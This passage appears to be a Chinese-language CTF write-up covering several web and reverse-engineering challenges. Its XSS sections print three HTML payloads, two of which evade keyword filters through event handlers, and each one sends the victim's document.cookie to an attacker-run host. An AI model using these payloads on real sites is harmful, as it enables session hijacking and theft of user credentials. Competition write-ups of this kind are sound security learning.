 ```python
with open('request.html', 'w') as f:
    f.write(resp.text)
```

> fductf{json_in_nodejs_is_very_dangerous_A77014BF}

## 一样一模的毕业设计 [FAILED]

搞了最久的一道题，各种操作也没绕开 php `file_get_contents` （或者说不是这样做的？

（来，wp 学习一下

## JJ历险记

一看就是 HTML 注入，我们本地搞个有公网 ip 的接收端（或者就是校内服务器，比赛平台实测可以访问到）。然后我们需要先 comment 一下，再点击 test 把注入的 js 在后台执行一遍，并向接收端发送 cookies。然后从本地接收端日志提取 cookies，也就是 flag。

注入 payload 这样写的。

```html
<script>fetch("http://<my_ip>:5000/login?cookie="+document.cookie);</script>
```

> fductf{???} （忘了

## JJ历险记2

有了一些屏蔽词，不能那么直白地注入了，那就想到用各种 event ，比如 onclick 等，在触发 event 时自动发送后台 cookies。经过尝试，发现这个能用。

```html
</p><body onpageshow="fetch('http://<my_ip>:5000/login?cookie='+document.cookie)">renatus!</body><p>
```

> fductf{I_4m_just_hitt1ng_my_str1d3_94c18194abc6}

## JJ历险记3

有了更多屏蔽词。根据提示，我们直接用 cheetsheet 暴力一遍，把所有的 payload 都提交上去（当然，大部分根本交不上，会直接过滤掉），然后直接 Test，发现也得到了 cookies。之后可以发现是这个起作用了。

```html
<svg><animateTransform onbegin="fetch('http://<my_ip>:5000/login?cookie='+document.cookie)" attributeName="transform">renatus!</animateTransform></svg>
```

> fductf{I_4m_th3_m4ster_0f_xss_73c6c18d8e06}

## Maze [OMITTED]

没看题

## GoGoGo [FAILED]

简单看了一下，本来想学习下 Go 的逆向的，但是比较忙没时间。
